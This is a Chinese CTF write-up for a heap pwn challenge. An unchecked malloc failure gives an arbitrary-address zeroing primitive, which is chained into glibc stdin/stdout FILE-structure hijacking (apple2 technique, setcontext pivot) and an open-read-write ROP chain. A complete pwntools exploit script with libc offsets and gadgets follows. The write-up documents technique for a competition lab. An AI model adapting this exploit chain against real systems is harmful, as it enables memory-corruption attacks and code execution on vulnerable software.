



> 最近真的很少打CTF，被暴打的没啥信心了，而且很多题逆向太多了，懒得看

# 漏洞点

漏洞出现在申请堆块时没有检查malloc是否成功，而malloc失败固定返回0
这里填size的时候可以填写任意地址，就可以得到`0 + 任意地址 - `置零



还有通过前面的read函数可以配合printf泄漏libc地址或者是其他地址
这里决定打libc，所以拿libc地址

# 利用手法

这里的置零要给`_IO_2_1_stdin_->file->_IO_buf_base`用
这样可以在fgets得到一个向`_IO_2_1_stdin_`写的机会
因为fgets中有一个`read(fp, fp->_IO_buf_base, fp->_IO_buf_end - fp->_IO_buf_base);`



然后再重复就可以完全控制_IO_buf_base，将其指向`_IO_2_1_stdout_`，打IO
所以我们就可以获得一个可控rdi的任意地址跳转(这部分属于传统apple2)

由于高版本的`setcontext`变成了使用rdx，我们需要一个将控制rdi转换为rdx的办法
这里可以走`_IO_switch_to_wget_mode`来将控制rdx，原因不仅是这个函数可以帮我们用rdi控rdx
更重要的原因是它间接属于`_IO_wfile_jumps`的跳表中(它被`IO_wfile_seekoff`调用)

另外`_IO_wfile_seekoff`中还对第四个参数`mode`进行检查，要求`mode`不为零才可以

以及可以看到需要满足
`fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base || _IO_in_put_mode (fp)`
才可以执行到_IO_switch_to_wget_mode，这里我没有特意调整也满足了，不过可以留意一下



最终实现ORW读flag

# exp
```python
from pwn import *
from filep import Filep

context.log_level = 'debug'
context.arch = 'amd64'
libc = ELF('./libc.so.6')

io = remote('0.0.0.0', 70)

io.sendafter(b'token: ', b'a' * 0x28)
io.recvuntil(b'a' * 0x28)
libc.address = u64(io.recv(0x6).ljust(0x8, b'\x00')) - 0xADDAE
print(hex(libc.address))

stdin = Filep(libc.address + 0x2038E0)
stdout = Filep(libc.address + 0x2045C0)
stderr = Filep(libc.address + 0x2044E0)

io.sendlineafter(b'Choice', b'1')
pause()
io.sendlineafter(b'Size', (str(stdin._IO_buf_base['address'] + 1)).encode())
pause()
io.sendafter(b'Content', b'a')

# stderr is for rop
# stdout is for IO_hack
pause()
io.send(p64(stderr.address - 2) * 4 + p64(stdout.address + 0xE8))
pause()
io.sendlineafter(b'Choice', b'')
# 在这里非常的奇怪，我必须把回车和上面的输出分开，否则fgets会遇到奇怪的bug然后卡死

setcontext = libc.address + 0x4A99D
io_wfile_jumps = libc.address + 0x202228
io_switch_to_wget_mode = libc.address + 0x8AFC0

rax = libc.address + 0xdd237
rdi = libc.address + 0x10F78B
rsi = libc.address + 0x110A7D
rcx = libc.address + 0xA877E
rdx = libc.address + 0xB503C
syscall = libc.address + 0x98FB6

fake_stderr = flat(
    {
        0x18 - 0x10: 0x0,
        0x20 - 0x10: p64(stderr.address - 0x10),
        0x88 - 0x10: p64(0x200),
        0xA0 - 0x10: p64(stdout.address + 0x50),
        0xA8 - 0x10: p64(rdi),
        0xE0 - 0x10: p64(stdout.address),
    },
    filler=b'\x00',
    length=0xE0,
)

fake_stdout = flat(
    {
        0x0: 0xDEADBEEF,
        0x18: p64(setcontext),
        0x20: b'flag' + b'\x00' * 4,
        0x50: p64(0x0),
        0x58: p64(rsi),
        0x60: p64(stdout.address + 0x70),
        0x68: p64(syscall),
        stdout._wide_data['offset']: p64(stderr.address - 0x10),
        stdout.vtable['offset']: p64(io_wfile_jumps + 0x10),
    },
    filler=b'\x00',
)

pause()
io.sendlineafter(b'Choice', b'2')
io.sendlineafter(b'Index: ', b'1\n' + fake_stderr + fake_stdout)

flag_addr = stdout.address + 0x20

pause()
rop = flat(
    rdi,
    -100,
    rsi,
    flag_addr,
    rdx,
    0x0,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x101,
    rcx,
    0x0,
    syscall,

    rdi,
    0x3,
    rsi,
    flag_addr,
    rdx,
    0x100,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x0,
    syscall,

    rdi,
    0x1,
    rsi,
    flag_addr,
    rdx,
    0x100,
    0x0,
    0x0,
    0x0,
    0x0,
    rax,
    0x1,
    syscall,
)
io.send(rop)

io.interactive()

```


